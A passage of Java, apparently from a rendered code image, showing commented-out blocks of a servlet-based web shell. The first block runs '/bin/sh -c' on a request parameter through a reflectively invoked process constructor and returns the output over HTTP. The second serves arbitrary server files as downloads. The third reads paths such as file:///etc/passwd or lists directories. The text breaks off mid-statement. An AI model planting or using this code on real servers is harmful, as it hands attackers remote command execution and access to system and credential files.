 ```java
//            Constructor<?> constructor = cls.getDeclaredConstructors()[0];
//            constructor.setAccessible(true);
//            String[] command = {"/bin/sh", "-c", cmd};
//            byte[] prog = toCString(command[0]);
//            byte[] argBlock = getArgBlock(command);
//            int argc = argBlock.length;
//            int[] fds = {-1, -1, -1};
//            Object obj = null;
//            try {
//                obj = constructor.newInstance(prog, argBlock, argc, null, 0, null, fds, false);
//                Method method = cls.getDeclaredMethod("getInputStream");
//                method.setAccessible(true);
//                InputStream is = (InputStream) method.invoke(obj);
//                InputStreamReader isr = new InputStreamReader(is);
//                BufferedReader br = new BufferedReader(isr);
//                StringBuilder stringBuilder = new StringBuilder();
//                String line;
//                while ((line = br.readLine()) != null) {
//                    stringBuilder.append(line + '\n');
//                }
//                servletResponse.getOutputStream().write(stringBuilder.toString().getBytes());
//            } catch (InstantiationException | NoSuchMethodException | InvocationTargetException |
//                     IllegalAccessException e) {
//                throw new RuntimeException(e);
//            }
//            servletResponse.getOutputStream().flush();
//            servletResponse.getOutputStream().close();
//            return;

////读文件
//            File file = new File(cmd);
//            // 1. 确保文件存在且可读
//            if (!file.exists() || !file.isFile() || !file.canRead()) {
//                System.out.println("文件不存在或无法读取: " + cmd);
//                ((HttpServletResponse) servletResponse).sendError(HttpServletResponse.SC_NOT_FOUND, "文件不存在");
//                return;
//            }
//            // 2. 设置响应头，提供文件下载
//            HttpServletResponse response = (HttpServletResponse) servletResponse;
//            response.setContentType("application/octet-stream");
//            response.setHeader("Content-Disposition", "attachment; filename=\"" + file.getName() + "\"");
//            // 3. 读取文件并写入响应流
//            try (FileInputStream fis = new FileInputStream(file);
//                 OutputStream out = response.getOutputStream()) {
//                byte[] buffer = new byte[4096];
//                int bytesRead;
//                while ((bytesRead = fis.read(buffer)) != -1) {
//                    out.write(buffer, 0, bytesRead);
//                }
//                out.flush();
//            } catch (IOException e) {
//                System.err.println("文件传输失败: " + e.getMessage());
//                ((HttpServletResponse) servletResponse).sendError(HttpServletResponse.SC_INTERNAL_SERVER_ERROR, "文件传输失败");
//            }

////读文件 ?cmd=file:///etc/passwd or 列目录 ?cmd=file:///
//            final URL url = new URL(cmd);
//            final BufferedReader in = new BufferedReader(new
//                    InputStreamReader(url.openStream()));
//            StringBuilder stringBuilder = new StringBuilder();
```